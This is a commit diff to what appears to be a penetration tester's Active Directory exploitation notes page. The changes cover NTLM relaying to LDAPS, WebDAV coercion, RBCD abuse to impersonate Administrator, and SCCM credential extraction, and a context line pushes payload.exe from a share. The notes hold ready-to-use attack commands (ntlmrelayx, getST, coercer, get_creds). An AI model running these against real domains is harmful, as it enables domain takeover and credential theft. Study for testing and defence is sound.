

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 7942 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated relaying notes

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -288,6 +288,10 @@
     - Thus, we'd specify `-l` as the server we own
 
 **Relaying**
+- By far one of the most powerful techniques in AD
+- The main reason we'd want to relay some form of authentication is because we want to be that user on the device we're relaying to
+  - For example, if we capture credentials via poisoning, we can relay those credentials to any unprotected device that the object has access to
+  - Alternatively, we might look to coerce a server and relay its auth to another server
 - If the credentials can't be cracked, pair responder up with `ntlmrelayx`
   - `ntlmrelayx.py -t {protocol}://{target_ip} -i`
     - `smb` can be used against servers that don't have signing:
@@ -316,16 +320,23 @@
     - This is because NetNTLMv1 doesn't allow for the inclusion of a Message Integrity Code (MIC)
 
 **Picking the protocol to relay to**
-- Servers can have protections against relay attacks (SMB signing, LDAP signing, LDAP channel binding)
-- The main reason we'd want to relay some form of authentication is because we want to be that user on the device we're relaying to
-  - For example, if we capture credentials via poisoning, we can relay those credentials to any unprotected device that the object has access to
-- Often, it can help to look at bloodhound
-  - If a computer has AdminTo over other computers (or is simply in the Administrators group), we can coerce and relay to the other computers lacking protections
-- If ANY DC is missing ldaps protections (yes, it has to be LDAPS), we can basically take over any computer we can coerce
-  - Just a simple `ntlmrelayx.py -t ldaps://{dc} -i --remove-mic -smb2support` will do the trick, opening an LDAPS shell locally
-    - Within the shell, do `set_rbcd {DC_NAME}$ {computer_name}$` to give a computer account the ability to impersonate users on the DC via S4U2Proxy
-      - Can then request an ST with `getST.py -spn cifs/{DC_fqdn} -impersonate Administrator -dc-ip {IP} '{domain}/{computer_acct}:{computer_pw}'`
-      - Then just `export KRB5CCNAME=Administrator.ccache` and `nxc smb {ip} -k --use-kcache`
+- Servers can have protections against relay attacks (SMB signing, LDAP signing/channel binding, MSSQL Extended Protection for Authentication)
+- If ANY DC is missing ldaps protections, we can exploit it in number of ways
+  - If the domain is using NetNTLMv1, we can simply relay one DC to another's LDAPS
+    - Just a simple `ntlmrelayx.py -t ldaps://{dc} -i --remove-mic -smb2support` will do the trick, opening an LDAPS shell locally
+      - Within the shell, do `set_rbcd {DC_NAME}$ {computer_name}$` to give a computer account the ability to impersonate users on the DC via S4U2Proxy
+        - Can then request an ST with `getST.py -spn cifs/{DC_fqdn} -impersonate Administrator -dc-ip {IP} '{domain}/{computer_acct}:{computer_pw}'`
+        - Then just `export KRB5CCNAME=Administrator.ccache` and `nxc smb {ip} -k --use-kcache`
+  - The same goes for dropping the mic - old DCs vulnerable to CVE-2019-1166 can be relayed to one another with the same command as above
+  - Finally, any server we can coerce WebDAV auth out of, we can relay
+    - This does require a DNS record, added either via ADIDNS, directly on the box, or something like `pretender`
+    - We can check with `nxc smb {server} -u {username} -p {pass} -M webdav"`
+    - We can relay with `coercer coerce -u {domain_username} -p '{password}' -d {domain} -l {fake_dns}@80/test -t {server_with_webdav}`
+- Servers missing SMB signing can be relayed to easily as well
+  - Often, it can help to look at bloodhound - if a computer has `AdminTo` or delegation over other computers (or is simply in the Administrators group), we can coerce and relay to the other computers lacking protections
+- MSSQL servers missing EPA can be relayed to
+  - Oftentimes, this doesn't really matter, as unless you can capture a sysadmin's auth via poisoning it can be tough to get valid creds
+  - However, sometimes other machine accounts will be sysadmin on the MSSQL, such as with SCCM
 
 **CVE-2025-33073**
 - Detailed in [this blog post](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
@@ -451,6 +462,7 @@
     - This will list devices, which we can get the information of with `get_device {device_name}`
       - Importantly, this will give us the device's `ResourceID`, which is needed to perform actions on the device
 - Credential extraction:
+  - `speak_to_the_manager` can automate NAA/OSD cred extraction off the bat
   - `get_creds` dumps all stored credential blobs (NAA, client push, forest discovery accounts) as `0C01` encrypted blobs
     - `decrypt {blob}` decrypts individual blobs into plaintext passwords using the site key
   - `get_forestkey` + `decryptEx` for forest discovery account credentials
@@ -469,6 +481,9 @@
     - `services`, `software`, `ps`, `shares`, `environment` for service/process/share enumeration
   - `application` allows easy batching of an executable
       - `application -p \\10.10.10.10\payload.exe --collection-id {collection_to_target} -s -n "{desired_application_name}"`
+- Other:
+  - `list_scripts` to see existing scripts already in place
+  - `get_script {script_guid}` to download the script
 
 
 
```
